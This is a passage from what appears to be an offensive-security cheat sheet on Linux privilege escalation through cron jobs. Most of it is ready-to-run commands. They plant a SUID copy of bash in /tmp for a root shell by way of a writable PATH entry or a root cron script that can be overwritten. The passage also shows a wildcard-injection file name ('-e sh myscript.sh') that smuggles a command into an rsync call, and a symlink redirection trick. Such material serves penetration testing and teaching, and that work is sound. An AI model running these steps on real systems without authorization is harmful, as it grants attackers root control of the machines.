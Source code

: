 ```bash
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

### Cron path

For example, inside _/etc/crontab_ you can find the PATH: _PATH=**/home/user**:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin_

(_Note how the user "user" has writing privileges over /home/user_)

If inside this crontab the root user tries to execute some command or script without setting the path. For example: _\* \* \* \* root overwrite.sh_\
Then, you can get a root shell by using:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```

### Cron using a script with a wildcard (Wildcard Injection)

If a script being executed by root has a “**\***” inside a command, you could exploit this to make unexpected things (like privesc). Example:

```bash
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```

**If the wildcard is preceded of a path like** _**/some/path/\***_ **, it's not vulnerable (even** _**./\***_ **is not).**

Read the following page for more wildcard exploitation tricks:

{% content-ref url="wildcards-spare-tricks.md" %}
[wildcards-spare-tricks.md](wildcards-spare-tricks.md)
{% endcontent-ref %}

### Cron script overwriting and symlink

If you **can modify a cron script** executed by root, you can get a shell very easily:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```

If the script executed by root uses a **directory where you have full access**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```
